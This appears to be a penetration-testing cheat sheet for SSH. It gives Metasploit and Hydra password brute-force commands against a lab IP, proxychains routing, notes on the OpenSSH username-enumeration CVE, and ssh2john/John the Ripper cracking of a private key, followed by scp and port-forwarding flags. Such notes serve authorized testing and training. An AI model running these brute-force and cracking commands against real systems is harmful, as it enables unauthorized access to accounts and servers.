 ## Bruteforce

Metasploit:
```bash
msf5 > use auxiliary/scanner/ssh/ssh_login
set STOP_ON_SUCCESS true
set VERBOSE true
set BLANK_PASSWORDS true
set USER_AS_PASS true
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

Hydra:
```bash
hydra -l alexander -P /usr/share/seclists/Miscellaneous/wordlist-skipfish.fuzz.txt 10.0.0.11 -t 4 ssh
proxychains hydra -l alexander -P /usr/share/seclists/Miscellaneous/wordlist-skipfish.fuzz.txt 10.0.0.11 -t 4 ssh
```

### Username Bruteforce

A noteworthy exploit is **"User enumeration in OpenSSH before version 7.7"** (CVE 2018-15473). 

It allows you to bruteforce usernames that exist on the SSH server relatively easily (EDB 45233). 
The relevant Metasploit module is called `scanner/ssh/ssh_enumusers`.

## SSH Key Bruteforcing

```bash
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

## File Transfers

```bash
scp <source> <destination>
scp SourceFile user@host:directory/TargetFile
```

## Port Forwarding

Useful SSH Params for Port Forwarding:

```bash
-L  #-- local forward
-R  #-- remote forward
-N  #-- don't open a shell
-C  #-- compress connection (save bandwidth)
-q  #-- quiet mode (don't print anything locally)
-f  #-- fork to background process (you will need to use: kill <pid> to close the tunnel)
-X  #-- set SOCKS version 4 / 5 (default is 5)
```
